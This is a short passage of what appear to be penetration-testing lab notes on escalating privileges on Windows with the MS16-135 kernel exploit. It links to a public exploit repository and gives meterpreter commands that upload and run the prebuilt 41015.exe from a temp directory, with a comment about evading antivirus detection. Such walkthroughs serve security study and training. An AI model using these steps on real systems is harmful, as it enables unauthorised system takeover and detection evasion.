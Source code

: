 - Search **`MS16-135`** in the **[windows-kernel-exploits](https://github.com/SecWiki/windows-kernel-exploits)** github repository
  - [MS16-135 exploit](https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS16-135)
  - check the [41015.c](https://github.com/SecWiki/windows-kernel-exploits/blob/master/MS16-135/41015.c) `C` file to check if the code does what it's supposed to
  - in this case I will use the pre-build executable `41015.exe`

- Knowing that the specific Windows version is vulnerable to this particular exploit, proceed with the exploitation

Use the `meterpreter` access to upload the `41015.exe` file to the `temp` directory within the Windows O.S.

```bash
cd C:\\
mkdir temp
cd temp\\
# Reduce the likelihood of antivirus detection by using the temp directory

upload 41015.exe
shell
.\41015.exe 7
```
